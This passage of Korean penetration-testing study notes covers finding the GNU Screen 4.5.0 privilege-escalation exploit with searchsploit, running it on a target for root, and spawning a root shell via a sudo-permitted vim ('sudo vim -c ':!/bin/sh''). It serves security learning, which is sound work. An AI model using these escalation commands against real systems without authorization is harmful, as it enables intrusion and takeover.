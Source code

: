 ## 3. 취약점 데이터베이스 검색

- **CVE 검색**  
  - Common Vulnerabilities and Exposures(공통 취약점 및 노출) 번호로 취약점 정보 검색

- **exploit-db 데이터베이스 검색**  
  - exploit-db(익스플로잇 데이터베이스)에서 공개된 공격 코드 및 취약점 정보 검색
  
- **칼리에서 screen-4.5.0 공개 취약점 검색**
    ```
    searchsploit screen 4.5.0
    ------------------------------------------------- ---------------------------------
     Exploit Title                                   |  Path
    ------------------------------------------------- ---------------------------------
    GNU Screen 4.5.0 - Local Privilege Escalation    | linux/local/41154.sh
    ```

- PoC 코드 다운로드
    `searchsploit -m 41154.sh`
	해당 sh 파일을 타겟으로 파일 전송한 뒤,
    `chmod +x 41154.sh; ./41154.sh`
    실행 시  root 권한 획득 가능
---
# 🛡️ SUDO 권한 상승 (GTFOBins 활용)
- **sudo란?**
  - 리눅스/유닉스 시스템에서 일반 사용자가 특정 명령어를 루트(root) 또는 다른 사용자 권한으로 실행할 수 있도록 해주는 명령어
  - 시스템 관리, 설정 변경 등 고권한 작업에 사용됨

- **권한 상승(Privilege Escalation)이란?**
  - 제한된 권한의 사용자가 시스템의 더 높은 권한(예: root)을 획득하는 공격 기법
  - sudo 설정이 잘못되어 있으면 악용 가능
## 실제 공격 예시 
1. sudo 권한 확인
-  `sudo -l`
   - 출력 예시:
   - (ALL) NOPASSWD: /usr/bin/vim
   - **NOPASSWD**: 비밀번호 입력 없이 실행 가능
   - **(ALL)**: 모든 사용자로 실행 가능
   - **/usr/bin/vim**: vim 명령어만 sudo로 실행 가능
   - 현재 타겟에서 vim 편집기를 비밀번호 입력 없이 실행 가능 확인
2. **GTFOBins**(https://gtfobins.github.io/) 에서 vim를 검색
3. 위에서 검색 후 참고한 아래 명령어를 실행:
    ```
    sudo vim -c ':!/bin/sh'

    ```
	- vim은 기본적으로 자신을 실행한 사용자의 권한으로 동작
	- `sudo` 를 같이 사용하여 	vim 자체가 root 권한으로 실행됨 → 내부에서 실행되는 셸(bin/bash)도 root 권한으로 실행됨
	- `-c` 옵션은 vim 실행 후 곧바로 명령어를 실행하게 해주는 옵션
	- :! 는 vim에서 외부 명령어를 실행할 수 있게 해주는 명령어
	
